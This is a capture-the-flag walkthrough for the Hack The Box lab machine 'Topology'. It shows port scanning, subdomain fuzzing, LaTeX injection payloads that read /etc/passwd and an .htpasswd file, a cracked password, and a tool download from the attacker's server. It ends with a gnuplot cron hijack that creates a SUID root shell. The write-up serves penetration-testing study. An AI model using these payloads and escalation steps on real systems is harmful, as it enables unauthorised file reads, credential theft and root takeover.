

# [Topology](https://app.hackthebox.com/machines/Topology)

```bash
nmap -p- --min-rate 10000 10.10.11.217 -Pn
```


After discovering open ports, let's do greater scan for these ports.

```bash
nmap -A -sC -sV -p22,80 10.10.11.217 -Pn 
```


From contact information as below, I add `topology.htb` into `/etc/hosts` file.


Let's do `Subdomain Enumeration` via `ffuf` command.
```bash
ffuf -u http://10.10.11.217 -H "Host: FUZZ.topology.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -mc all -ac 
```


I also get `latex` subdomain from website's itself, so that, I will add `latex`,`dev`,`stats` subdomains into `/etc/hosts` file.


I found `Latex Equation Generator`, let's search injection ways for `Latex code`


I found this [article](https://book.hacktricks.xyz/pentesting-web/formula-csv-doc-latex-ghostscript-injection#latex-injection) for `LaTeX` injection.


While I submit such an input `$\lstinputlisting{/etc/passwd}$` into here, I got already `/etc/passwd` file of target system.


Let's enumerate files, I add such filename `/var/www/dev/.htpasswd` into here to read.

Payload=> `$\lstinputlisting{/var/www/dev/.htpasswd}$`


vdaisley: $apr1$10NUB/S2$58eeNVirnRDB5zAIbIxTY0


Let's crack hash via `hashcat` tool.

```bash
hashcat -m 1600 hash.txt --wordlist /usr/share/wordlists/rockyou.txt 
```

I found password `calculus20`, let's login into machine via this credentials.

vdaisley: calculus20

user.txt


Let's upload `pspy64` into machine to see background jobs.

1.First, we need to create http server.
```bash
python3 -m http.server --bind 10.10.14.2 8080
```


2.Now, it's time download this binary via `wget` command.
```bash
wget http://10.10.14.2:8080/pspy64
```


After execution of `pspy64`, I see that there's bash script called `loadplot.plt`.
It means that `getdata.sh` script calls this `.plt` script.


Let's write our malicious `.plt` file on `/opt/gnuplot` directory.


```bash
set print "/dev/shm/dr4ks-output"
output = system("id")
print(output)
```


 

Let's see that this executed or not.




As it is executed, we can replace `id` command with malicious cmdlet which we will give `SUID` binary to copied `/bin/bash` file.

```bash
cp /bin/bash /tmp/dr4ks && chmod 4777 /tmp/dr4ks
```


Let's execute this copied `/bin/bash` file via `-p` option.


root.txt

